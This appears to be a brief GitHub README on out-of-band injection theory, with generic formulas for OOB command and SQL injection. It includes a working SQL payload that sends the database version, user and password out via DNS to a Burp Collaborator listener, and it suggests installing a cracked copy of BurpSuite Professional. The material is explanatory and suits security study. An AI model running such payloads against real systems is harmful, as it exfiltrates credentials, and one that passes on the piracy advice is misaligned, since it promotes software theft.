


<h1 align="Center">Out-of-band Injection Theory</h1>

### OOB injection is an exploitation to exfiltrate data and information through different outbond channel

## Traditional Injection Technique (In-Band)




#### eg SQL Databse Query to make DNS request

```
select
load_file(CONCAT('\\\\',(SELECT+@@version),'.',(SELECT+user),'.',
(SELECT+password),'.','n5tgzhrf768l71uaacqu0hqlocu2ir.burpcollabo
rator.net\\vfw'))
```


<br>

## OOB Injection




# How to get listening server
	1. Install BurpSuite Professional (Crack)
	2. Use Bure Collaborator Client 
	4. DNS request to listening Server
	3. Collect captured info


## Formuala

### For Command Injection

`𝑂𝑂𝐵 Commandinjection = 𝐹𝑖. (system 𝑐𝑜𝑚𝑚𝑎𝑛𝑑𝑠 + 𝐹𝑄𝐷𝑁)`

where,

<pre>
Fi      = function that initiates outbound request<br>
FQDN  = domain name of the listening server (Burpcollaborator domain name)
</pre>

### For Sql Injection

`𝑂𝑂𝐵 𝑆𝑄𝐿𝑖 = 𝐹𝑖. (𝑆𝑄𝐿 𝑐𝑜𝑚𝑚𝑎𝑛𝑑𝑠 + 𝐹𝑄𝐷𝑁)`


<pre>
Fi  = function that initiates outbound request<br>
FQDN  = domain name of the listening server (Burpcollaborator domain name)
</pre>


#### References
A Study of Out-of-Band Structured Query Language Injection by Lee Chun How  (doi: 10.5281/zenodo.3556347)
